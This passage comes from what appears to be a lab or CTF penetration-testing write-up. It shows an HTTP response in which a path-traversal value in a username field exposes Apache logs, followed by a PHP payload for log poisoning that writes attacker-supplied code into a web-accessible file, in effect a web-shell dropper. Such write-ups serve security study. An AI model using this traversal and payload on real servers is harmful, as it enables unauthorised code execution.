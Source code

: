 <i><b>HTTP Response :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sun, 27 Dec 2020 00:31:43 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 4970344


&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" >
&lt;html>
&lt;head>
&lt;meta http-equiv="content-type" content="text/html; charset=ISO-8859-1">
&lt;title>Expenses Reimbursement System @TryHarder.local&lt;/title>
&lt;/head>
[.....]
&lt;p>&lt;h3>&lt;strong>Welcome ../../../../../proc/6642/fd/9%00&lt;/strong>&lt;/h3>&lt;/p>&lt;p>&lt;h3>This is your personal space, you can post your comments and list your monthly report:&lt;/h3>&lt;/p>&lt;p>&lt;pre><span style="color:#cd0000;"><b>192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /listings.php HTTP/1.1" 200 764 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /listings.php HTTP/1.1" 200 764 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [26/Dec/2020:03:40:37 -0500] "GET /listings.php HTTP/1.1" 200 764 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"</b></span>
</pre>

<p style="text-align:justify;">
As we look closely at the response above, we can realize that the <code  style="background-color: lightgrey; color:black;">/proc/6642/fd/9</code> file contains logs regarding the HTTP Agent header. This evidence explains that we might have the ability to inject php code inside the apache log file of the target server using the agent header. The code that will be injected to the apache log file is the following
</p>

```php
<?php $data=base64_decode($_GET['cmd']);
$file=fopen('./comments/yolo.php','w');
fwrite($file,$data);fclose($file);phpinfo();?>
``` 
